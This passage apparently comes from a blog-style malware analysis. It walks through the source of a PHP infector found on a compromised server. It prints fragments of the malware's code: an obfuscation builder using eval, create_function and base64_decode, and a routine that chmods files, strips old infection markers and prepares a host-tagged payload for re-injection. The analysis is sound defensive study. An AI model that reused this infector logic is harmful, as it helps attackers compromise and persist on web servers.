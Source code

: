 	$z =  GetMass('eval',$code1,$mas1);
	$z .=  GetMass('create_function',$code2,$mas2);
	$z .=  GetMass('base64_decode',$code3,$mas3);
	$z .= $v0 . '="'.$code.'";';
	$z .= $coo;

	return $z;

	}

But the obfuscation isn't done yet. Another function is defined. It starts with

	function modify($fname)
	{
		$tmp = file_get_contents($fname);
		$md_start = md5($tmp);
		chmod($fname,0666);
		$md = md5($fname);
		$pattern = '/function GetMama\(\).*\]\}\)\)\{break;\}\}/i';
		$replacement = '';
		$tmp = preg_replace($pattern, $replacement, $tmp);
		$pattern = '/\/\*god_mode_on.*god_mode_off\*\//i';
		$replacement = '';
		$tmp = preg_replace($pattern, $replacement, $tmp);
		$pattern = '/\/\*'.$md.'_on.*'.$md.'_off\*\//i';
		$replacement = '';
		$tmp = preg_replace($pattern, $replacement, $tmp);
		$pattern = '/<\?php[\s]*\?>/i';
		$replacement = '';
		$tmp = preg_replace($pattern, $replacement, $tmp);

As we can see, the function loads a file and does some replacements depending on the structure of the file. It looks like that the four structures detected are either the GetMama function, a comment pair stating *god_mode_on* and *god_mode_off* (interestingly, this was present in another file in the same infected server), the class of comments I found in the script (so *that* is what that comment pair was!) and a straight-away php-tag pair.

All the replacements are, by default, with an empty string, so this snippet just deletes what it finds.  Now the function continues.

	$pos = strpos($tmp,'GetMama');
	$pos2 = strpos($tmp,'god_mode_on');
	if (($pos === false) && ($pos2 === false))
	{
		$code_t = 'THE EXACT PAYLOAD CODE WE GOT IN THE FIRST ARTICLE';
		$mama = 'wtf';
		$mama = $_SERVER["HTTP_HOST"];
		$code_t = str_replace('###',$mama,$code_t);
		$code = '<' . '?php ';

The script looks for either GetMama or god_mode_on in the loaded file. I dont really know why, because it was just deleted with those regexes before. Still the author things that this is *wtf-worthy* for a split second before *$mama* gets set to the current host. The host gets injected into *$code_t*, which was the exact payload we analized in the last article but with the host replaced with ###. A new variable, *$code*, gets set to an opening php tag. Now comes something interesting:
